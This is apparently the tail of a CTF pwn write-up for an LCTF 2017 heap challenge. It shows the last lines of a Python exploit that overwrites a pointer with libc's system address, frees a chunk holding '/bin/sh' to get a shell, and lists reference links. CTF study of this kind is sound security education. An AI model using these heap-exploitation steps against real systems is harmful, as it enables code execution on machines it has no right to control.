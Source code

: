 ```python
update(1,8,p64(libc_base+libc.sym['system']))

##free /bin/sh
delete(2)

cn.interactive()
```

## 参考

- [http://eternalsakura13.com/2018/03/21/lctf2/](http://eternalsakura13.com/2018/03/21/lctf2/)
- [https://blog.pwnhub.cn/2017/11/22/LCTF-2017-%E5%AE%98%E6%96%B9Writeup/#%E6%80%9D%E8%B7%AF](https://blog.pwnhub.cn/2017/11/22/LCTF-2017-%E5%AE%98%E6%96%B9Writeup/#%E6%80%9D%E8%B7%AF)
- [https://gist.github.com/Jackyxty/9de01a0bdfe5fb6d0b40fe066f059fa3](https://gist.github.com/Jackyxty/9de01a0bdfe5fb6d0b40fe066f059fa3)
